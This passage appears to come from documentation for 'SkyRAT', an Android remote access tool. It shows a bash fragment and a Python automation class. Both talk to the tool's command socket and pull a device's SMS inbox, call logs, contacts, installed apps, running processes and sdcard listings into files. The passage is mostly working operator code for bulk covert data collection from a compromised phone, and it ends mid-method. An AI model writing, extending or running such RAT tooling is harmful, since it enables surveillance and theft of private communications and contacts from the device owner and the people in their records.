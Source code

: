 ```bash
send_command "getCallLogs" "call_logs.txt"
send_command "getContacts" "contacts.txt"

# Application analysis
send_command "getApps" "applications.txt"
send_command "ps" "processes.txt"

# File system analysis
send_command "ls /sdcard" "sdcard_listing.txt"
send_command "ls /system/app" "system_apps.txt"

echo "Data collection complete: $OUTPUT_DIR"
```

#### **Python Automation Framework**
```python
#!/usr/bin/env python3
# skyrat_automation.py

import socket
import time
import json
from datetime import datetime

class SkyRATAutomation:
    def __init__(self, host, port):
        self.host = host
        self.port = port
        self.socket = None
        
    def connect(self):
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((self.host, self.port))
        # Wait for welcome message
        self.receive_response()
        
    def send_command(self, command):
        if self.socket:
            self.socket.send(f"{command}\n".encode())
            return self.receive_response()
            
    def receive_response(self):
        response = ""
        while "END123" not in response:
            data = self.socket.recv(8192).decode('utf-8', errors='ignore')
            response += data
        return response.replace("END123", "").strip()
        
    def collect_all_data(self):
        timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
        results = {"timestamp": timestamp, "data": {}}
        
        commands = [
            "deviceInfo", "getIP", "sysinfo",
            "getSMS inbox", "getCallLogs", "getContacts",
            "getApps", "ps"
        ]
        
        for cmd in commands:
            print(f"Executing: {cmd}")
            results["data"][cmd] = self.send_command(cmd)
            time.sleep(2)
            
```